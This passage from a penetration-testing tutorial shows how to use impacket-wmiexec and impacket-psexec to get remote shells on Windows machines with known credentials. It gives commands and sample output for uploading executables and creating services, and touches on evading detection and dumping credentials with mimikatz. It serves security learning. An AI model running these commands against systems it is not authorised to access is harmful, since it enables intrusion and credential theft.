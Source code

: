For all of the following methods you will need credentials and some of them only work if their counterparts are enabled on the Windows machine itself. 

Technically, they are living off the land attacks as well, but since you need to remotely initiate the shell and they are all packaged under the `impacket` umbrella I wanted to give them their own category.

Note:
*One of the hardest tasks an aspiring cybersecurity aficionado has to take care of is installing `impacket` and making sure to have the most up-to-date version of it. 
Some say it is harder than escaping vim, others are still stuck trying to find which folder contains the correct python files on their kali linux.*

I have come to help and share how I use them easily:

>usually `impacket` might be already installed on your kali and the individual scripts can be used via `impacket-<script_name>` in your kali terminal



### 10. impacket-wmiexec
WMI, or `Windows Management Instrumentation` is an admin feature for remote management of machines. The power of `wmiexec` lies in the details, if it is available we don't get a pseudo-shell but we are able to start processes instead (minor detail, but huge for evading detection / leaving a clean environment). This means we don't need to transfer an arbitrary executable to do something but we use native Windows Remote Management tools to do our bidding. 

More details as to how to use WMI for event-based notifications (e.g. a user logs in and you can now dump their credentials using `mimikatz` or similar) can be found in this [blog post](https://www.varonis.com/blog/wmi-windows-management-instrumentation/). 

You can use `lput` to upload files to the Windows machine like so:

```bash
impacket-wmiexec <username>:<password>@<windows_machine_ip>
Impacket v0.9.24.dev1+20210815.200803.5fd22878 - Copyright 2021 SecureAuth Corporation

[*] SMBv3.0 dialect used
[!] Launching semi-interactive shell - Careful what you execute
[!] Press help for extra shell commands
C:\>lput /home/kali/file_to_be_uploaded.exe
```

### 11. impacket-psexec
Number 11 is an interesting one, `psexec` is a telnet replacement tool, which is part of the PsTools suite, that you can [download](https://docs.microsoft.com/en-us/sysinternals/downloads/psexec) from the Microsoft website and it enables command-line based code execution (on remote machines). You don't have to install `psexec`, but only transfer the binary to the Windows machine via a method of your choice. 
Interestingly, `psexec` has been used in viruses before and thus is sometimes picked up by third-party anti-virus scanners. 
Interestingly^2, prior to version 2.1 the traffic was apparently not encrypted so you might want to check which version is present to see if your passwords are sent in a secure manner. 
Execution is only possible if realtime-detection is disabled (at least it was on my Windows 10 Test-System) and as all the `exec` parts of impacket, this does not have an inherent upload functionality, but can copy remote binaries / code. 
```bash
impacket-psexec <username>:<password>@<windows_machine_ip>
Impacket v0.9.24.dev1+20210815.200803.5fd22878 - Copyright 2021 SecureAuth Corporation

[*] Requesting shares on 10.10.10.10.....
[*] Found writable share ADMIN$
[*] Uploading file FvVjzAJr.exe
[*] Opening SVCManager on 10.10.10.10.....
[*] Creating service NKIK on 10.10.10.10.....
[*] Starting service NKIK.....
Microsoft Windows [Version 10.0.19043.928]
(c) Microsoft Corporation. All rights reserved.
```